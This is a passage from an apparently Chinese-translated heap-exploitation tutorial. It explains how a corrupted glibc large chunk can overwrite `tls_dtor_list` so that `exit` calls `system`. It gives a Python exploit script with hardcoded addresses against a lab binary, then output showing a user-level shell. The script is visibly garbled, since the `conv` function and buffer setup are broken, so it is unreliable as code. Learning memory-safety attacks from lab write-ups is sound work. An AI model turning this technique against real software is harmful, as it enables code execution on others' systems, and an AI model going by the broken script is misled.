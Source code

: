 覆盖`tls_dtor_list`：

`tls_dtor_list`是个线程局部的变量，它包含函数指针的列表，它们在`exit`过程中调用。`__call_tls_dtors`遍历`tls_dtor_list`并依次调用函数。因此如果我们可以将`tls_dtor_list`覆盖为堆地址，它包含`system`和`system_arg`，来替代`dtor_list`的`func`和`obj`，我们就能调用`system`。

![2](http://upload-images.jianshu.io/upload_images/118142-9214891d6f4b0265.png)

所以现在攻击者需要覆盖要被释放的 large 块的`malloc_chunk `元素，像这样：

+   `fd`应该指向被释放的块，来绕过主要环形双向链表的加固。
+   `bk`也应该指向被释放的块，来绕过主要环形双向链表的加固。
+   `fd_nextsize`应该指向`tls_dtor_list - 0x14`。
+   `bk_nextsize`应该指向含有`dtor_list `元素的堆地址。

`fd_nextsize`可写的问题解决了，因为`tls_dtor_list `属于`libc.so`的可写区段，并且通过反汇编`_call_tls_dtors()`，`tls_dtor_list `的地址为`0xb7fe86d4`。

`bk_nextsize`可写的问题也解决了，因为它指向堆地址。

使用所有这些信息，让我们编写利用程序来攻击漏洞二进制的“前向合并”。

利用代码：

```py
#exp_try.py
#!/usr/bin/env python
import struct
from subprocess import call

fd = 0x0804b418
bk = 0x0804b418
fd_nextsize = 0xb7fe86c0
bk_nextsize = 0x804b430
system = 0x4e0a86e0
sh = 0x80482ce

#endianess convertion
def conv(num):
 return struct.pack("<I",num(fd)
buf += conv(bk)
buf += conv(fd_nextsize)
buf += conv(bk_nextsize)
buf += conv(system)
buf += conv(sh)
buf += "A" * 996

print "Calling vulnerable program"
call(["./consolidate_forward", buf])
```

执行上述利用代码不会向我们提供 root shell。它向我们提供了一个运行在我们的权限级别的 bash shell。嗯...

```
$ python -c 'print "A"*16' > inp_file
$ python exp_try.py 
Calling vulnerable program
sh-4.2$ id
uid=1000(sploitfun) gid=1000(sploitfun) groups=1000(sploitfun),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2$ exit
exit
$
```
